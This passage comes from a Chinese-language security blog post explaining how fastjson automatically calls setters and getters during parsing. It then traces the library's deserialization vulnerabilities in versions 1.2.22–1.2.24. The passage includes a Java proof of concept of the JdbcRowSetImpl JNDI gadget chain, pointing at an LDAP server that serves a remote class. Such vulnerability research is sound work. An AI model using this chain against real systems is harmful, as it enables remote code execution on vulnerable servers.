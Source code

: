 会判断传入的第一个参数类型是否为布尔型，是的话就在截取完的变量前加上`is`，截取propertyName的第一个字符转大写和第二个字符，并且然后重新尝试获取属性字段。

比如：public boolean setBoy(boolean t) 会寻找`isBoy`字段。

set的整个判断就是：如果有setCmd()会绑定cmd属性，如果该类没有cmd属性会绑定isCmd属性。

get的判断
![image.png](https://y4er.com/img/uploads/20200426119593.png)
总结下就是：
1. 方法名长度大于等于4
2. 非静态方法
3. 以get开头且第4个字母为大写
4. 无传入参数
5. 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong

当程序绑定了对应的字段之后，如果传入json字符串的键值中存在这个值，就会去调用执行对应的setter、构造方法。

小结：
1. parse(jsonStr) 构造方法+Json字符串指定属性的setter()+特殊的getter()
2. parseObject(jsonStr) 构造方法+Json字符串指定属性的setter()+所有getter() 包括不存在属性和私有属性的getter()
3. parseObject(jsonStr,Object.class) 构造方法+Json字符串指定属性的setter()+特殊的getter()

## fastjson漏洞历程
fastjson漏洞经历了多次绕过及修复，甚至出现了加密黑名单防止安全研究= =

### 1.2.22-1.2.24
在小于fastjson1.2.22-1.2.24版本中有两条利用链。
1. JNDI `com.sun.rowset.JdbcRowSetImpl`
2. JDK7u21 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`

#### JNDI利用链
JNDI传输过程中使用的就是序列化和反序列化，所以通杀三种解析方式

```java
JSON.parse(evil);
JSON.parseObject(evil);
JSON.parseObject(evil, Object.class);
```

原理就是setter的自动调用

```java
package org.chabug.fastjson.run;

import com.sun.rowset.JdbcRowSetImpl;

import java.sql.SQLException;

public class Test {
    public static void main(String[] args) {


        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        try {
            jdbcRowSet.setDataSourceName("ldap://localhost:1389/#Calc");
            jdbcRowSet.setAutoCommit(true);
        } catch (SQLException e) {
            e.printStackTrace();
        }
    }
}
```
